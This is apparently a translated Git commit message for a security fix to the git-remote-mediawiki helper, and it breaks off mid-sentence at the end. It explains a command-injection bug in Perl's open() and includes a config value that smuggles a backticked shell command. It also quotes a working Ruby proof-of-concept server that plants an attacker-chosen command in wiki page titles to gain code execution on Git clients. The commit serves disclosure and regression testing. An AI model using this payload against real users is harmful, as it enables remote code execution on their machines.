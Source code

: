 > 所以我们会执行一个任意命令，并将“ `remote.origin.namespaceCache=:notANameSpace`”放在配置中。
> 有了这个更改，我们引用了所有这些，所以现在我们只需将“ `remote.origin.namespaceCache=``id>/tmp/x``:notANameSpace`”写入配置，而不执行任何远程命令。
> 
> 关于实现：如[“将文件句柄打开到命令中”](https://perldoc.perl.org/functions/open.html#Opening-a-filehandle-into-a-command)（另见“[安全管道打开](https://perldoc.perl.org/perlipc#Safe-Pipe-Opens)”）中所述，这种调用`open()`方式在 Windows 上直到 Perl 5.22 都存在兼容性问题。
> 然而，Johannes Schindelin 指出，在这种情况下我们不应该担心 Windows，因为（引用他的私人电子邮件）：
> 
> 1.  mediawiki 助手从未作为官方 Git for Windows 版本的一部分发布。它也从未成为官方 MSYS2 软件包的一部分。这意味着想要使用 mediawiki 帮助程序的 Windows 用户必须自己构建 Git，而似乎没有多少用户这样做。
>     
>     
> 2.  与 Perl v5.22.x 一起发布的最后一个 Git for Windows 版本是 Git for Windows v2.11.1；自 Git for Windows v2.12.0（2017 年 2 月 25 日发布）以来，仅包含更新的 Perl 版本。
>     
>     
> 
> 所以让我们使用这个`open()`API。
> 到处搜索表明我们发布的各种其他 Perl 代码，例如 gitweb 等。使用这种调用方式`open()`，所以我们不应该有任何兼容性问题。
> 
> 为了进一步的参考和未来的测试，这里是 Joern 提供的有效利用代码：
> 
> ```
> #!/usr/bin/ruby
> # git client side RCE via `mediawiki` remote proof of concept
> # Joern Schneeweisz - GitLab Security Research Team  
> 
> require 'sinatra'
> set bind: '0.0.0.0'  
> 
> if not ARGV[0]  
> 
> puts "Please provide the shell command to be execucted."
> exit -1  
> 
> end  
> 
> cmd = ARGV[0]
> all_pages = sprintf('{"limits":{"allpages":500},"query":{"allpages":[{"pageid":1,"ns":3,"title":"`%s`:Main Page"}]}}', cmd)
> revs = sprintf('{"query":{"pages":{"1":{"pageid":1,"ns":3,"title":"`%s`:Main Page","revisions":[{"revid":1,"parentid":0,"user":"MediaWiki default","timestamp":"2020-09-04T20:25:08Z","contentformat":"text/x-wiki","contentmodel":"wikitext","comment":"","*":"<al:MyLanguage/Help:Contents]"}]}}}}', cmd)
> mainpage= sprintf('{"batchcomplete":"","query":{"pages":{"1":{"pageid":1,"ns":3,"title":"`%s`:Main Page","revisions":[{"revid":1,"parentid":0}]}}}}',cmd)  
> 
> post '/api.php' do  
> 
> if params[:list] == 'allpages'
>   return all_pages
> end  
> 
> if params[:prop] == 'revisions'
>   return revs
> end  
> 
> return mainpage
> end 
> ```
> 
> 哪一个：
> 